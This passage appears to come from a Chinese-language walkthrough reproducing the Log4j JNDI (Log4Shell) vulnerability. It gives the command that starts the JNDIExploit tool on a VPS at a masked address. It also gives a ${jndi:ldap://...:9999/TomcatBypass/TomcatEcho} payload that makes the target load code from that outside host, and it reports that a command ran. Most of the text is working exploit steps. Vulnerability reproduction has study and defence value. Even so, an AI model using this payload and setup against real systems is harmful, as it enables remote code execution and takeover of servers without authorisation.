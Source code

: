 ![image-20211214105859297]($imgs/image-20211214105859297.png)



### 3.执行命令

在本地先要生成JNDI链接并启动后端相关服务，VPS注意防火墙开启相关端口，用的是[JNDIExploit-1.2-SNAPSHOT.jar](https://download.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)，同样本地先启动服务,

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 47.xxx.xxx.xxx -l 9999 -p 80 
```

![image-20211214120021395]($imgs/image-20211214120021395.png)

构造以下payload，发送请求，成功执行命令。

```
cmd: whoami

c=${jndi:ldap://47.xxx.xxx.xxx:9999/TomcatBypass/TomcatEcho}
```

![image-20211214120416481]($imgs/image-20211214120416481.png)
